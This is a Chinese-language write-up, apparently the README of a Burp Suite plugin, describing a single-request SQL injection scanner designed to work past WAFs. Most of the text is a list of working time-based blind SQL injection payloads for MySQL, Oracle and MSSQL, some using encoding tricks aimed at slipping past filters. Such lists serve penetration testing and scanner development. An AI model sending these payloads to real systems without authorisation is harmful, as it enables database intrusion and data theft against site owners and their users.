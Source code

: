 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5-SLEEP(5)/*'-SLEEP(5)-'"-SLEEP(5)-"*/`

`'||(SELECT 1 FROM DUAL WHERE 6994=6994 AND 1=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5))||'`
`'%2b(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys8)%2b'`

` waitfor delay '0:0:5' --`

`' waitfor delay '0:0:5' --`

`') waitfor delay '0:0:5' --`

`) waitfor delay '0:0:5' --`

`OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ' LIKE 'jmBZ`

`') OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ' LIKE 'jmBZ`


` AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`
